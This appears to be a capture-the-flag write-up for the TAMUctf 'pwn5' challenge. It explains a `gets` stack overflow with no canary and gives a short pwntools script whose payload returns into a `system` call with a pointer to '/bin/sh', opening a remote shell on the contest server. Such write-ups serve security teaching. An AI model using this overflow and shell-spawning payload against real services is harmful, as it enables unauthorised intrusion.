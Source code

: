 # pwn5

nc pwn.tamuctf.com 4325

For this problem, `ls` is running as a service and it's therefore amusing that the user can see the flag but not `cat` it. The code itself also uses `gets` and there's no canary on the stack. I noticed that I should be able to return to three lines before the call to `system`:

![./run-cmd.png](./run-cmd.png)

If I put `"/bin/sh"` at wherever on the stack ends up being `[ebp - 0x12]` when three lines before `run_cmd` gets called, then I'll pass a pointer to that string to a call to `system` and I'm good to go without ever needing to leak a stack address. Nice.

Next I just need to run the program and take a look at the stack to figure out where I need to be overwriting information.

The most challenging part of this problem was actually just setting up `gdb` to step over a call to fork `execve`. It turns out I hadn't needed to do that, but `set follow-fork-mode parent` worked for me. This was a very simple ROP problem in the end, I just placed above the return address for the call to `system` a pointer to the string `/bin/sh` in the text section, and that worked for me.

Here's the exploit code:
```
from pwn import *

p = remote('pwn.tamuctf.com', 4325)

payload = "-la" + "AAAABBBBCCCCDD" + p32(0x080488b3) + p32(0x080bc140) + "\n"
p.send(payload)

# Need to return to 0x80488af
p.interactive()
```

![./flag.png](./flag.png)
